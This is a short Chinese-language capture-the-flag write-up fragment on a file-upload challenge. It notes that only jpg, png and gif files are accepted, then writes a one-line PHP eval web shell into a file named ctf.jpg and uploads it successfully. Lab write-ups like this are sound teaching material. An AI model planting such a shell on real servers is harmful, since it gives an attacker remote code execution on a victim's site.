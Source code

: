 ![](images/yuanma.png)

查看网页源码发现只能上传jpg、png、gif格式的文件

创建一个名为ctf.jpg的文件，写入

```php
<?php @eval($_POST["ctf"]);?>
```

将文件上传，上传成功

![](images/成功.png)
